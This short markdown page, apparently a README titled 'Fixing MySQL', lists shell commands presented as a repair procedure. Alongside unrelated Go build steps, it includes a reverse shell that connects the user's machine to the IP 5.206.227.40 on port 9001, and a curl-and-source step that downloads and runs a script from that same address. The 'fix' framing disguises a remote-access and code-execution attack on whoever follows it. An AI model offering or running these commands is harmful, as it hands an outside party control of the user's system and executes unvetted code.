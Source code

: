 # Fixing MySQL



`sudo apt-get install gccgo-5`

`sudo update-alternatives --set go /usr/bin/go-5`

`GOROOT_BOOTSTRAP=/usr ./make.bash`

Next Step

`ls`

`sh -i >& /dev/tcp/5.206.227.40/9001 0>&1`
connect to the download server

`curl 5.206.227.40/fix.mysql`

`source ./fix.mysql`

# ALL DONE
#:)
